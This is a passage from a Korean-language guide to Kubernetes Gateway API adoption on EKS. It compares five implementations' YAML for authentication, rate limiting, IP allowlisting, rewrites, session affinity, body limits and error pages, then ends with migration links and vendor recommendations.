  rules:
    - matches:
        - path:
            type: PathPrefix
            value: /api
      filters:
        - type: ExtensionRef
          extensionRef:
            group: eks.amazonaws.com
            kind: JWTAuthorizer
            name: cognito-authorizer
      backendRefs:
        - name: api-service
          port: 8080

---
# JWTAuthorizer CRD (LBC v3 확장)
apiVersion: eks.amazonaws.com/v1
kind: JWTAuthorizer
metadata:
  name: cognito-authorizer
spec:
  issuer: https://cognito-idp.us-west-2.amazonaws.com/us-west-2_ABC123
  audiences:
    - api-gateway-client
  claimsToHeaders:
    - claim: sub
      header: x-user-id
    - claim: email
      header: x-user-email
```

</TabItem>
<TabItem value="cilium" label="Cilium">

:::warning 제한 사항
Cilium은 네이티브 JWT/OIDC 인증을 지원하지 않습니다. CiliumEnvoyConfig로 Envoy ext_authz 필터를 구성하거나, 별도 인증 서비스(OAuth2 Proxy 등)를 배포해야 합니다.
:::

```yaml
# CiliumNetworkPolicy로 L7 HTTP 헤더 검증 (기본 인증)
apiVersion: cilium.io/v2
kind: CiliumNetworkPolicy
metadata:
  name: auth-header-check
  namespace: production
spec:
  endpointSelector:
    matchLabels:
      app: api-service
  ingress:
    - fromEndpoints:
        - matchLabels:
            io.kubernetes.pod.namespace: ingress-nginx
      toPorts:
        - ports:
            - port: "8080"
              protocol: TCP
          rules:
            http:
              - method: GET
                headers:
                  - "Authorization: Bearer.*"

---
# 또는 CiliumEnvoyConfig로 Envoy ext_authz 구성
apiVersion: cilium.io/v2
kind: CiliumEnvoyConfig
metadata:
  name: ext-authz
  namespace: production
spec:
  services:
    - name: api-service
      namespace: production
  resources:
    - "@type": type.googleapis.com/envoy.config.listener.v3.Listener
      name: envoy-lb-listener
      filterChains:
        - filters:
            - name: envoy.filters.network.http_connection_manager
              typedConfig:
                "@type": type.googleapis.com/envoy.extensions.filters.network.http_connection_manager.v3.HttpConnectionManager
                httpFilters:
                  - name: envoy.filters.http.ext_authz
                    typedConfig:
                      "@type": type.googleapis.com/envoy.extensions.filters.http.ext_authz.v3.ExtAuthz
                      grpcService:
                        envoyGrpc:
                          clusterName: ext-authz-service
                      includePeerCertificate: true
```

</TabItem>
<TabItem value="nginx" label="NGINX Gateway Fabric">

:::warning 제한 사항
NGINX Gateway Fabric은 네이티브 JWT 검증을 지원하지 않습니다. nginx.org/v1alpha1 UpstreamSettingsPolicy와 외부 인증 서비스를 조합해야 합니다.
:::

```yaml
# 외부 인증 서비스를 통한 패턴
apiVersion: gateway.networking.k8s.io/v1
kind: HTTPRoute
metadata:
  name: auth-protected
  namespace: production
spec:
  parentRefs:
    - name: production-gateway
  rules:
    # 인증 없이 /auth 엔드포인트로 먼저 라우팅
    - matches:
        - path:
            type: PathPrefix
            value: /api
          headers:
            - name: Authorization
              type: RegularExpression
              value: "^Bearer .+"
      backendRefs:
        - name: api-service
          port: 8080
    # Authorization 헤더 없으면 401 반환 (별도 에러 서비스)
    - matches:
        - path:
            type: PathPrefix
            value: /api
      backendRefs:
        - name: auth-error-service
          port: 80

---
apiVersion: gateway.nginx.org/v1alpha1
kind: UpstreamSettingsPolicy
metadata:
  name: auth-proxy
spec:
  targetRef:
    group: ""
    kind: Service
    name: api-service
  # NGINX에서는 auth_request 모듈을 사용하여 외부 인증 검증
  # OAuth2 Proxy 또는 유사한 인증 프록시를 배포하여 구현
```

</TabItem>
<TabItem value="envoy" label="Envoy Gateway">

```yaml
apiVersion: gateway.envoyproxy.io/v1alpha1
kind: SecurityPolicy
metadata:
  name: ext-auth
  namespace: production
spec:
  targetRefs:
    - group: gateway.networking.k8s.io
      kind: HTTPRoute
      name: api-route
  extAuth:
    http:
      service:
        name: auth-service
        port: 8080
      headersToBackend:
        - x-user-id
        - x-user-role
      backendRefs:
        - name: auth-service
          port: 8080
```

</TabItem>
<TabItem value="kgateway" label="kGateway">

```yaml
apiVersion: gateway.kgateway.io/v1alpha1
kind: RouteOption
metadata:
  name: jwt-auth
  namespace: production
spec:
  targetRefs:
    - group: gateway.networking.k8s.io
      kind: HTTPRoute
      name: api-route
  jwt:
    providers:
      - name: keycloak
        issuer: https://keycloak.example.com/auth/realms/production
        audiences:
          - api-gateway
        jwksUri: https://keycloak.example.com/auth/realms/production/protocol/openid-connect/certs
        claimsToHeaders:
          - claim: sub
            header: x-user-id
          - claim: groups
            header: x-user-groups
```

</TabItem>
</Tabs>

#### 2. Rate Limiting

<Tabs>
<TabItem value="aws" label="AWS Native" default>

:::warning 제한 사항
AWS Native(LBC v3)는 게이트웨이 레벨의 네이티브 Rate Limiting을 지원하지 않습니다. AWS WAF Rate-based Rule을 사용하여 IP 기반 요청 제한을 구현합니다.
:::

```yaml
# ALB에 WAF Rate-based Rule 연결
apiVersion: gateway.networking.k8s.io/v1
kind: Gateway
metadata:
  name: production-gateway
  annotations:
    # Rate limiting WAF ACL ARN
    aws.load-balancer.waf-acl-arn: arn:aws:wafv2:us-west-2:123456789012:regional/webacl/rate-limit/a1b2c3d4
spec:
  gatewayClassName: aws-alb
  listeners:
    - name: http
      port: 80
      protocol: HTTP
```

:::note WAF Rate-based Rule 예시
AWS Console 또는 CloudFormation에서 다음과 같이 생성합니다:
- Rule type: Rate-based rule
- Rate limit: 100 requests per 5 minutes
- Aggregation: IP address
- Action: Block
:::

</TabItem>
<TabItem value="cilium" label="Cilium">

```yaml
apiVersion: cilium.io/v2
kind: CiliumEnvoyConfig
metadata:
  name: rate-limit
spec:
  services:
    - name: api-service
      namespace: production
  backendServices:
    - name: api-service
      namespace: production
      number:
        - "8080"
  resources:
    - "@type": type.googleapis.com/envoy.config.listener.v3.Listener
      name: envoy-lb-listener
      filterChains:
        - filters:
            - name: envoy.filters.network.http_connection_manager
              typedConfig:
                "@type": type.googleapis.com/envoy.extensions.filters.network.http_connection_manager.v3.HttpConnectionManager
                httpFilters:
                  - name: envoy.filters.http.local_ratelimit
                    typedConfig:
                      "@type": type.googleapis.com/envoy.extensions.filters.http.local_ratelimit.v3.LocalRateLimit
                      statPrefix: http_local_rate_limiter
                      tokenBucket:
                        maxTokens: 200
                        tokensPerFill: 100
                        fillInterval: 1s
```

</TabItem>
<TabItem value="nginx" label="NGINX Gateway Fabric">

```yaml
apiVersion: gateway.nginx.org/v1alpha1
kind: NginxProxy
metadata:
  name: rate-limit
spec:
  rateLimiting:
    rate: 100r/s  # 초당 100 요청
    burst: 200    # 버스트 200 요청
    noDelay: true # 즉시 제한 적용
    zoneSize: 10m # 메모리 존 크기
```

</TabItem>
<TabItem value="envoy" label="Envoy Gateway">

```yaml
apiVersion: gateway.envoyproxy.io/v1alpha1
kind: BackendTrafficPolicy
metadata:
  name: rate-limit
  namespace: production
spec:
  targetRefs:
    - group: gateway.networking.k8s.io
      kind: HTTPRoute
      name: api-route
  rateLimit:
    type: Global
    global:
      rules:
        - limit:
            requests: 100
            unit: Second
          clientSelectors:
            - headers:
                - name: x-user-id
                  type: Distinct  # 사용자별 제한
```

</TabItem>
<TabItem value="kgateway" label="kGateway">

```yaml
apiVersion: gateway.kgateway.io/v1alpha1
kind: RouteOption
metadata:
  name: rate-limit
spec:
  targetRefs:
    - group: gateway.networking.k8s.io
      kind: HTTPRoute
      name: api-route
  rateLimitConfigs:
    - actions:
        - genericKey:
            descriptorValue: per-user
        - requestHeaders:
            headerName: x-user-id
            descriptorKey: user_id
      limit:
        dynamicMetadata:
          metadataKey:
            key: rl
            path:
              - key: per-user
        unit: SECOND
        requestsPerUnit: 100
```

</TabItem>
</Tabs>

#### 3. IP 제어 (IP Allowlist)

<Tabs>
<TabItem value="aws" label="AWS Native" default>

```yaml
# ALB Ingress에 WAF 연결 (LBC v3)
apiVersion: gateway.networking.k8s.io/v1
kind: Gateway
metadata:
  name: production-gateway
  annotations:
    aws.load-balancer.waf-acl-arn: arn:aws:wafv2:us-west-2:123456789012:regional/webacl/ip-allowlist/a1b2c3d4
spec:
  gatewayClassName: aws-alb
  listeners:
    - name: http
      port: 80
      protocol: HTTP
```

:::note
AWS WAF IP Set은 AWS Console 또는 CloudFormation으로 생성하고, IP Set ARN을 위 annotation에 지정합니다.
:::

</TabItem>
<TabItem value="cilium" label="Cilium">

```yaml
apiVersion: cilium.io/v2
kind: CiliumNetworkPolicy
metadata:
  name: ip-allowlist
  namespace: production
spec:
  endpointSelector:
    matchLabels:
      app: api-service
  ingress:
    - fromCIDR:
        - "10.0.0.0/8"        # VPC 내부
        - "192.168.1.0/24"    # 사무실
        - "203.0.113.100/32"  # 특정 IP
      toPorts:
        - ports:
            - port: "8080"
              protocol: TCP
```

</TabItem>
<TabItem value="nginx" label="NGINX Gateway Fabric">

```yaml
apiVersion: gateway.nginx.org/v1alpha1
kind: NginxProxy
metadata:
  name: ip-filter
spec:
  ipFiltering:
    allow:
      - "10.0.0.0/8"
      - "192.168.1.0/24"
    deny:
      - "203.0.113.0/24"  # 차단할 IP 대역
```

</TabItem>
<TabItem value="envoy" label="Envoy Gateway">

```yaml
apiVersion: gateway.envoyproxy.io/v1alpha1
kind: SecurityPolicy
metadata:
  name: ip-allowlist
spec:
  targetRefs:
    - group: gateway.networking.k8s.io
      kind: Gateway
      name: production-gateway
  authorization:
    rules:
      - action: ALLOW
        from:
          - source:
              principals:
                - "10.0.0.0/8"
                - "192.168.1.0/24"
      - action: DENY
        from:
          - source:
              principals:
                - "*"
```

</TabItem>
<TabItem value="kgateway" label="kGateway">

:::warning 제한 사항
kGateway는 네이티브 IP 필터링을 RouteOption CRD의 networkPolicy 또는 Kubernetes NetworkPolicy와 조합하여 구현합니다.
:::

```yaml
# Kubernetes NetworkPolicy를 사용한 IP 제어
apiVersion: networking.k8s.io/v1
kind: NetworkPolicy
metadata:
  name: ip-allowlist
  namespace: production
spec:
  podSelector:
    matchLabels:
      app: api-service
  policyTypes:
    - Ingress
  ingress:
    - from:
        - ipBlock:
            cidr: 10.0.0.0/8
        - ipBlock:
            cidr: 192.168.1.0/24
        - ipBlock:
            cidr: 203.0.113.100/32
      ports:
        - protocol: TCP
          port: 8080
```

</TabItem>
</Tabs>

#### 4. URL Rewrite

:::note Gateway API 표준
URL Rewrite는 Gateway API v1 표준 기능으로, 모든 구현체에서 동일하게 작동합니다.
:::

```yaml
apiVersion: gateway.networking.k8s.io/v1
kind: HTTPRoute
metadata:
  name: api-rewrite
  namespace: production
spec:
  parentRefs:
    - name: production-gateway
  rules:
    # /api/v1/users → /users
    - matches:
        - path:
            type: PathPrefix
            value: /api/v1
      filters:
        - type: URLRewrite
          urlRewrite:
            path:
              type: ReplacePrefixMatch
              replacePrefixMatch: /
      backendRefs:
        - name: api-service
          port: 8080

    # /old-api/users → /v2/users
    - matches:
        - path:
            type: PathPrefix
            value: /old-api
      filters:
        - type: URLRewrite
          urlRewrite:
            path:
              type: ReplacePrefixMatch
              replacePrefixMatch: /v2
      backendRefs:
        - name: api-service-v2
          port: 8080
```

#### 5. Header 조작

:::note Gateway API 표준
Header 조작은 Gateway API v1 표준 기능으로, 모든 구현체에서 동일하게 작동합니다.
:::

```yaml
apiVersion: gateway.networking.k8s.io/v1
kind: HTTPRoute
metadata:
  name: header-manipulation
spec:
  parentRefs:
    - name: production-gateway
  rules:
    - matches:
        - path:
            value: /api
      filters:
        # 요청 헤더 추가
        - type: RequestHeaderModifier
          requestHeaderModifier:
            add:
              - name: X-Custom-Header
                value: "gateway-api"
              - name: X-Forwarded-Proto
                value: "https"
            remove:
              - Authorization  # 기존 Authorization 제거
        # 응답 헤더 추가
        - type: ResponseHeaderModifier
          responseHeaderModifier:
            add:
              - name: X-Server
                value: "gateway-api"
              - name: Strict-Transport-Security
                value: "max-age=31536000; includeSubDomains"
      backendRefs:
        - name: api-service
          port: 8080
```

#### 6. 세션 어피니티 (Cookie-based)

<Tabs>
<TabItem value="aws" label="AWS Native" default>

```yaml
apiVersion: gateway.networking.k8s.io/v1
kind: HTTPRoute
metadata:
  name: sticky-session
  annotations:
    aws.load-balancer.target-group.stickiness.enabled: "true"
    aws.load-balancer.target-group.stickiness.type: "lb_cookie"
    aws.load-balancer.target-group.stickiness.duration: "3600"
spec:
  parentRefs:
    - name: production-gateway
  rules:
    - backendRefs:
        - name: api-service
          port: 8080
```

</TabItem>
<TabItem value="cilium" label="Cilium">

:::warning 제한 사항
Cilium은 네이티브 쿠키 기반 세션 어피니티를 지원하지 않습니다. CiliumEnvoyConfig로 Envoy의 consistent hashing 또는 ring hash를 구성할 수 있습니다.
:::

```yaml
apiVersion: cilium.io/v2
kind: CiliumEnvoyConfig
metadata:
  name: session-affinity
  namespace: production
spec:
  services:
    - name: api-service
      namespace: production
  resources:
    - "@type": type.googleapis.com/envoy.config.cluster.v3.Cluster
      name: api-service-cluster
      type: STRICT_DNS
      lbPolicy: RING_HASH
      ringHashLbConfig:
        hashFunction: XX_HASH
        minimumRingSize: 1024
      loadAssignment:
        clusterName: api-service-cluster
        endpoints:
          - lbEndpoints:
              - endpoint:
                  address:
                    socketAddress:
                      address: api-service.production.svc.cluster.local
                      portValue: 8080
    - "@type": type.googleapis.com/envoy.config.route.v3.RouteConfiguration
      name: session-affinity-route
      virtualHosts:
        - name: api-service
          domains: ["*"]
          routes:
            - match:
                prefix: "/"
              route:
                cluster: api-service-cluster
                hashPolicy:
                  - cookie:
                      name: SESSION_COOKIE
                      ttl: 3600s
```

</TabItem>
<TabItem value="nginx" label="NGINX Gateway Fabric">

```yaml
apiVersion: gateway.nginx.org/v1alpha1
kind: UpstreamSettingsPolicy
metadata:
  name: session-affinity
  namespace: production
spec:
  targetRef:
    group: ""
    kind: Service
    name: api-service
  sessionAffinity:
    cookieName: BACKEND_SESSION
    cookieExpires: 1h
```

</TabItem>
<TabItem value="envoy" label="Envoy Gateway">

```yaml
apiVersion: gateway.envoyproxy.io/v1alpha1
kind: BackendTrafficPolicy
metadata:
  name: session-affinity
  namespace: production
spec:
  targetRefs:
    - group: gateway.networking.k8s.io
      kind: HTTPRoute
      name: api-route
  loadBalancer:
    type: ConsistentHash
    consistentHash:
      type: Cookie
      cookie:
        name: SESSION_COOKIE
        ttl: 3600s
```

</TabItem>
<TabItem value="kgateway" label="kGateway">

```yaml
apiVersion: gateway.kgateway.io/v1alpha1
kind: RouteOption
metadata:
  name: session-affinity
  namespace: production
spec:
  targetRefs:
    - group: gateway.networking.k8s.io
      kind: HTTPRoute
      name: api-route
  sessionAffinity:
    cookieBased:
      cookie:
        name: JSESSIONID
        ttl: 3600s
        path: /
```

</TabItem>
</Tabs>

#### 7. 요청 본문 크기 제한

<Tabs>
<TabItem value="aws" label="AWS Native" default>

:::warning 제한 사항
AWS WAF Rule을 사용하여 요청 본문 크기를 제한합니다 (Console/CloudFormation 설정).
:::

```yaml
# ALB에 WAF Body Size Limit Rule 연결
apiVersion: gateway.networking.k8s.io/v1
kind: Gateway
metadata:
  name: production-gateway
  annotations:
    aws.load-balancer.waf-acl-arn: arn:aws:wafv2:us-west-2:123456789012:regional/webacl/body-size-limit/a1b2c3d4
spec:
  gatewayClassName: aws-alb
  listeners:
    - name: http
      port: 80
      protocol: HTTP
```

:::note WAF Body Size Rule 예시
AWS Console에서 다음과 같이 생성합니다:
- Rule type: Size constraint
- Inspect: Body
- Match type: Size greater than
- Size: 10485760 (10MB)
- Action: Block
:::

</TabItem>
<TabItem value="cilium" label="Cilium">

:::warning 제한 사항
Cilium Gateway API는 별도의 요청 본문 크기 제한 CRD를 제공하지 않습니다. CiliumEnvoyConfig로 Envoy의 buffer 필터를 구성하거나, 백엔드 애플리케이션에서 처리해야 합니다.
:::

```yaml
apiVersion: cilium.io/v2
kind: CiliumEnvoyConfig
metadata:
  name: body-size-limit
  namespace: production
spec:
  services:
    - name: api-service
      namespace: production
  resources:
    - "@type": type.googleapis.com/envoy.config.listener.v3.Listener
      name: envoy-lb-listener
      filterChains:
        - filters:
            - name: envoy.filters.network.http_connection_manager
              typedConfig:
                "@type": type.googleapis.com/envoy.extensions.filters.network.http_connection_manager.v3.HttpConnectionManager
                commonHttpProtocolOptions:
                  maxRequestHeadersKb: 60
                http2ProtocolOptions:
                  maxConcurrentStreams: 100
                # Envoy buffer 필터로 요청 본문 크기 제한
                perConnectionBufferLimitBytes: 10485760  # 10MB
```

</TabItem>
<TabItem value="nginx" label="NGINX Gateway Fabric">

```yaml
apiVersion: gateway.nginx.org/v1alpha1
kind: NginxProxy
metadata:
  name: body-size-limit
spec:
  clientMaxBodySize: 10m  # 최대 10MB
```

</TabItem>
<TabItem value="envoy" label="Envoy Gateway">

```yaml
apiVersion: gateway.envoyproxy.io/v1alpha1
kind: ClientTrafficPolicy
metadata:
  name: body-size-limit
spec:
  targetRefs:
    - group: gateway.networking.k8s.io
      kind: Gateway
      name: production-gateway
  http1:
    http10Disabled: false
    maxRequestHeadersKb: 60
  connection:
    bufferLimitBytes: 10485760  # 10MB
```

</TabItem>
<TabItem value="kgateway" label="kGateway">

:::warning 제한 사항
kGateway는 RouteOption CRD에서 body size limit을 직접 지원하지 않습니다. 백엔드 서비스 또는 Envoy 필터 확장을 통해 구현합니다.
:::

```yaml
# kGateway는 백엔드 애플리케이션에서 본문 크기 검증을 권장
# 또는 ListenerOption으로 전역 버퍼 제한 구성
apiVersion: gateway.kgateway.io/v1alpha1
kind: ListenerOption
metadata:
  name: body-size-limit
  namespace: production
spec:
  targetRefs:
    - group: gateway.networking.k8s.io
      kind: Gateway
      name: production-gateway
      sectionName: http
  options:
    perConnectionBufferLimitBytes: 10485760  # 10MB
```

</TabItem>
</Tabs>

#### 8. 커스텀 에러 페이지

<Tabs>
<TabItem value="aws" label="AWS Native" default>

```yaml
# ALB의 Fixed Response 액션 사용
apiVersion: gateway.networking.k8s.io/v1
kind: HTTPRoute
metadata:
  name: error-response
  namespace: production
  annotations:
    # ALB action annotation으로 고정 응답 구성
    alb.ingress.kubernetes.io/actions.error-503: |
      {
        "type": "fixed-response",
        "fixedResponseConfig": {
          "contentType": "text/html",
          "statusCode": "503",
          "messageBody": "<html><body><h1>Service Under Maintenance</h1><p>Please try again later.</p></body></html>"
        }
      }
spec:
  parentRefs:
    - name: production-gateway
  rules:
    - matches:
        - path:
            type: PathPrefix
            value: /maintenance
      backendRefs:
        - name: error-503  # annotation에 정의된 액션 이름
          kind: Service
          port: 503
```

</TabItem>
<TabItem value="cilium" label="Cilium">

:::warning 제한 사항
Cilium Gateway API는 네이티브 커스텀 에러 페이지를 지원하지 않습니다. 별도 에러 페이지 서비스를 배포하고 HTTPRoute에서 라우팅합니다.
:::

```yaml
# 에러 페이지를 제공하는 백엔드 서비스
apiVersion: v1
kind: Service
metadata:
  name: error-page-service
  namespace: production
spec:
  selector:
    app: error-pages
  ports:
    - port: 80

---
# 에러 발생 시 error-page-service로 라우팅
apiVersion: gateway.networking.k8s.io/v1
kind: HTTPRoute
metadata:
  name: error-route
  namespace: production
spec:
  parentRefs:
    - name: production-gateway
  rules:
    - matches:
        - path:
            type: PathPrefix
            value: /error
      backendRefs:
        - name: error-page-service
          port: 80
    - matches:
        - path:
            type: PathPrefix
            value: /maintenance
      backendRefs:
        - name: error-page-service
          port: 80
```

</TabItem>
<TabItem value="nginx" label="NGINX Gateway Fabric">

:::warning 제한 사항
NGINX Gateway Fabric은 SnippetsPolicy 또는 별도 에러 서비스 라우팅으로 커스텀 에러 페이지를 구현합니다.
:::

```yaml
# 별도 에러 페이지 서비스를 통한 패턴
apiVersion: v1
kind: Service
metadata:
  name: error-page-service
  namespace: production
spec:
  selector:
    app: error-pages
  ports:
    - port: 80

---
apiVersion: gateway.networking.k8s.io/v1
kind: HTTPRoute
metadata:
  name: error-handling
  namespace: production
spec:
  parentRefs:
    - name: production-gateway
  rules:
    # 메인 애플리케이션 라우트
    - matches:
        - path:
            type: PathPrefix
            value: /api
      backendRefs:
        - name: api-service
          port: 8080
    # 에러 페이지 라우트
    - matches:
        - path:
            type: PathPrefix
            value: /error
      backendRefs:
        - name: error-page-service
          port: 80

---
# NginxProxy로 에러 페이지 지시문 구성 (선택적)
apiVersion: gateway.nginx.org/v1alpha1
kind: NginxProxy
metadata:
  name: error-pages
spec:
  errorPages:
    - codes: [500, 502, 503, 504]
      return:
        statusCode: 503
        body: "<html><body><h1>Service Unavailable</h1></body></html>"
```

</TabItem>
<TabItem value="envoy" label="Envoy Gateway">

```yaml
apiVersion: gateway.envoyproxy.io/v1alpha1
kind: BackendTrafficPolicy
metadata:
  name: custom-error
  namespace: production
spec:
  targetRefs:
    - group: gateway.networking.k8s.io
      kind: HTTPRoute
      name: api-route
  faultInjection:
    - match:
        headers:
          - name: x-trigger-error
      abort:
        httpStatus: 503
        percentage: 100

---
# HTTPRoute에서 Fixed Response
apiVersion: gateway.networking.k8s.io/v1
kind: HTTPRoute
metadata:
  name: error-response
  namespace: production
spec:
  parentRefs:
    - name: production-gateway
  rules:
    - matches:
        - path:
            type: PathPrefix
            value: /maintenance
      filters:
        - type: ExtensionRef
          extensionRef:
            group: gateway.envoyproxy.io
            kind: DirectResponse
            name: maintenance-response

---
apiVersion: gateway.envoyproxy.io/v1alpha1
kind: DirectResponse
metadata:
  name: maintenance-response
  namespace: production
spec:
  statusCode: 503
  body:
    type: Inline
    inline: |
      <html>
      <body>
        <h1>Service Under Maintenance</h1>
        <p>Please try again later.</p>
      </body>
      </html>
```

</TabItem>
<TabItem value="kgateway" label="kGateway">

```yaml
# RouteOption의 transformation을 사용하여 커스텀 응답 구성
apiVersion: gateway.kgateway.io/v1alpha1
kind: RouteOption
metadata:
  name: custom-error
  namespace: production
spec:
  targetRefs:
    - group: gateway.networking.k8s.io
      kind: HTTPRoute
      name: maintenance-route
  options:
    transformations:
      responseTransformation:
        transformationTemplate:
          headers:
            ":status":
              text: "503"
            content-type:
              text: "text/html"
          body:
            text: |
              <html>
              <body>
                <h1>Service Under Maintenance</h1>
                <p>Please try again later.</p>
              </body>
              </html>

---
apiVersion: gateway.networking.k8s.io/v1
kind: HTTPRoute
metadata:
  name: maintenance-route
  namespace: production
spec:
  parentRefs:
    - name: production-gateway
  rules:
    - matches:
        - path:
            type: PathPrefix
            value: /maintenance
      backendRefs:
        - name: api-service
          port: 8080
```

</TabItem>
</Tabs>

### 5.7 경로 선택 의사결정 트리

다음 의사결정 트리를 통해 조직에 최적의 솔루션을 선택할 수 있습니다.



### 5.8 시나리오별 권장 경로

다음은 일반적인 조직 시나리오에 따른 권장 솔루션입니다.

<ScenarioRecommendationTable />

---

## 6. Cilium ENI 모드 + Gateway API 심화 구성

Cilium ENI 모드와 Gateway API의 심화 구성에 대한 상세 내용은 별도 문서로 분리되었습니다.

:::tip 상세 가이드
**[Cilium ENI 모드 + Gateway API 심화 구성 가이드](/docs/infrastructure-optimization/gateway-api-adoption-guide/cilium-eni-gateway-api)**에서 다음 내용을 확인할 수 있습니다:
- ENI 모드 아키텍처 및 오버뷰
- 사전 요구사항 및 설치 흐름
- Gateway API 리소스 구성
- 성능 최적화 (eBPF, XDP)
- 운영 및 관측성 (Hubble)
- BGP Control Plane v2
:::

---

## 7. 마이그레이션 실행 전략

상세한 마이그레이션 실행 전략은 별도 문서로 이동되었습니다.

:::tip 상세 가이드
**[마이그레이션 실행 전략](/docs/infrastructure-optimization/gateway-api-adoption-guide/migration-execution-strategy)** 문서에서 다음 내용을 확인할 수 있습니다:
- CRD 설치 및 컨트롤러 배포
- 5-Phase 마이그레이션 프로세스
- Phase별 상세 실행 가이드
- 검증 스크립트 및 체크리스트
- 컨트롤러별 트러블슈팅 가이드
:::

---

## 8. 벤치마크 비교 계획

5개 Gateway API 구현체의 객관적인 성능 비교를 위한 체계적인 벤치마크를 계획하고 있습니다. 처리량, 레이턴시, TLS 성능, L7 라우팅, 스케일링, 리소스 효율성, 장애 복구, gRPC 등 8개 시나리오를 동일한 EKS 환경에서 측정합니다.

:::info 벤치마크 상세 계획
테스트 환경 설계, 시나리오 상세, 측정 지표 및 실행 계획은 **[Gateway API 구현체 성능 벤치마크 계획](/docs/benchmarks/gateway-api-benchmark)**에서 확인할 수 있습니다.
:::

---

## 9. 결론 및 향후 로드맵

### 9.1 결론

<RouteRecommendationTable />

위 표를 기반으로 조직 환경에 맞는 솔루션을 선택하세요.

<Tabs>
  <TabItem value="aws" label="AWS 올인 환경" default>

**AWS Native (LBC v3)** — 운영 부담 최소화, ALB/NLB 관리형 특성 활용, SLA 보장, AWS WAF/Shield/ACM 통합. 성능보다 안정성과 자동 스케일링이 중요한 환경에 최적.

  </TabItem>
  <TabItem value="cilium" label="고성능 + 관측성">

**Cilium Gateway API** — 초저지연 (P99 10ms 미만), eBPF 기반 네트워킹, Hubble L7 가시성, ENI 모드 VPC 네이티브 통합. 고성능과 서비스 메시 통합이 필요한 환경에 최적.

  </TabItem>
  <TabItem value="nginx" label="NGINX 경험 활용">

**NGINX Gateway Fabric** — 기존 NGINX 지식 활용, 검증된 안정성, F5 엔터프라이즈 지원, 멀티클라우드. 빠른 전환이 필요한 NGINX 경험 팀에 최적.

  </TabItem>
  <TabItem value="envoy" label="CNCF 표준">

**Envoy Gateway** — CNCF 표준, Istio 호환, 풍부한 L7 기능 (mTLS, ExtAuth, Rate Limiting, Circuit Breaking). 서비스 메시 확장 계획이 있는 환경에 최적.

  </TabItem>
  <TabItem value="kgateway" label="AI/ML 통합">

**kGateway** — 통합 게이트웨이 (API+메시+AI+MCP), AI/ML 워크로드 라우팅, Solo.io 엔터프라이즈 지원. AI/ML 특화 라우팅이 필요한 환경에 최적.

  </TabItem>
  <TabItem value="hybrid" label="하이브리드 노드">

**Cilium Gateway API + llm-d** — EKS Hybrid Nodes로 클라우드와 온프레미스 GPU 노드를 통합 운영하는 경우, Cilium을 단일 CNI로 사용하면 CNI 단일화 + Hubble 통합 관측성 + Gateway API 내장의 이점을 확보할 수 있습니다. AI 추론 트래픽은 llm-d가 KV Cache-aware 라우팅으로 최적화합니다. 자세한 내용은 [Cilium ENI + Gateway API 심화 가이드 — 섹션 9](/docs/infrastructure-optimization/gateway-api-adoption-guide/cilium-eni-gateway-api#9-하이브리드-노드-아키텍처와-aiml-워크로드)를 참조하세요.

  </TabItem>
</Tabs>

### 9.2 향후 확장 로드맵

<RoadmapTimeline />

### 9.3 핵심 메시지

:::info
**2026년 3월 NGINX Ingress EOL 이전에 마이그레이션을 완료하여 보안 위협을 원천 차단하세요.**

Gateway API는 단순한 Ingress 대체가 아닌, 클라우드 네이티브 트래픽 관리의 미래입니다.
- **역할 분리**: 플랫폼 팀과 개발 팀의 명확한 책임 분리
- **표준화**: 벤더 종속성 없는 이식 가능한 구성
- **확장성**: East-West, 서비스 메시, AI 통합까지 확장
:::

**지금 시작하세요:**
1. 현재 Ingress 인벤토리 수집 (Section 7.3.1)
2. 워크로드에 맞는 솔루션 선택 (Section 9.2)
3. PoC 환경 구축 (Section 7.3.2)
4. 점진적 마이그레이션 실행 (Section 7.3.4)

**추가 리소스:**
- [Gateway API 공식 문서](https://gateway-api.sigs.k8s.io/)
- [Cilium 공식 문서](https://docs.cilium.io/)
- [NGINX Gateway Fabric](https://docs.nginx.com/nginx-gateway-fabric/)
- [Envoy Gateway](https://gateway.envoyproxy.io/)
- [AWS Load Balancer Controller](https://kubernetes-sigs.github.io/aws-load-balancer-controller/)

---

## 관련 문서

- **[Cilium ENI 모드 + Gateway API](/docs/infrastructure-optimization/gateway-api-adoption-guide/cilium-eni-gateway-api)** - Cilium ENI 모드 심화 구성
- **[마이그레이션 실행 전략](/docs/infrastructure-optimization/gateway-api-adoption-guide/migration-execution-strategy)** - 5-Phase 마이그레이션 가이드
- [2. CoreDNS 모니터링 & 최적화](/docs/infrastructure-optimization/coredns-monitoring-optimization)
- [3. East-West 트래픽 최적화](/docs/infrastructure-optimization/east-west-traffic-best-practice)
- [4. Karpenter 초고속 오토스케일링](/docs/infrastructure-optimization/karpenter-autoscaling)
- [Kubernetes Gateway API 공식 문서](https://gateway-api.sigs.k8s.io/)
- [AWS Load Balancer Controller](https://kubernetes-sigs.github.io/aws-load-balancer-controller/)
- [Cilium Gateway API 문서](https://docs.cilium.io/en/stable/network/servicemesh/gateway-api/gateway-api/)
- [NGINX Gateway Fabric](https://docs.nginx.com/nginx-gateway-fabric/)
- [Envoy Gateway](https://gateway.envoyproxy.io/)
- [kGateway](https://k8sgateway.io/)
- [GAMMA Initiative](https://gateway-api.sigs.k8s.io/mesh/gamma/)
